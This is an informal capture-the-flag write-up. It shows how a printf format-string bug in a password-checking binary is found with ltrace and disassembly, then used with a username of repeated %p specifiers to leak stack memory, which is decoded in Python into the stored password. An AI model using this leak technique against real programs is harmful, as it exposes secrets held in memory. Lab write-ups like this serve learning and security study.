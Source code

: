 with ltrace we find that the file opens passwd.

the thing uses fgets to read input, strncmp to check passwd, probably checking it against the actual flag since ltrace shows attempt to read exactly that.

printf is used for printing the 

> pepe does not have access!

line, meaning it takes username as arg, so let's play with that, feeding it some %p

now lets see where this thing reads in disas main:

   0x00000000004008e6 <+210>:    lea    -0xa0(%rbp),%rax //create buff for reading 0xa0 = 160 in dec
...
   0x00000000004008fe <+234>:    mov    %rax,%rdi //into the rax 
   0x0000000000400901 <+237>:    callq  0x400690 <fread@plt> //we read

https://man7.org/linux/man-pages/man3/printf.3.html
 Format of the format string
check here what da $ doin, basically at allows to get to a place we need in buff for our purposes;

$rsp - the stack pointer here. it's size: 
       0x0000000000400818 <+4>:    sub    $0x120,%rsp
0x120 = 288

meaning we take 160 bytes out of 288 sized stack, thus buff beginning at 288 - 160
%p will move 8 bytes per step (ptr size == 8 in x64 systems)
thus to print the right bit of stack with passwd we start at (288 - 160) / 8


however this is all some github shit


lets do our way eh?

why not spam %p 30 times and see what we get


11112222333%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p


111122223330x7fffffffe4b0(nil)0x6b0x2a2a2a2a2a2a2a2a0x2a2a2a2a2a2a2a2a0x7fffffffe6a80x1f7ff9a080x6b6b6b(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)0x100000000(nil)0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d(nil)0x32323232313131310x25702570253333330x2570257025702570 does not have access!

lets reverse the shit and see what we get

we check the stuff between nils, notice that reversed 0x2a = '*' and other shit from input, somewhere we will find our buff. but in between we see 

0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d

lets separate them and use .decode() method in python (in vm btw lol)

but instead of hello world obviously our shit
so we have 

0x756e505234376848
0x45414a3561733951
0x377a7143574e6758
0x354a35686e475873
0x48336750664b394d


>>> a = "756e505234376848".decode("hex")[::-1]
>>> print(a)
Hh74RPnu

and so on gives us 

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

lol it works
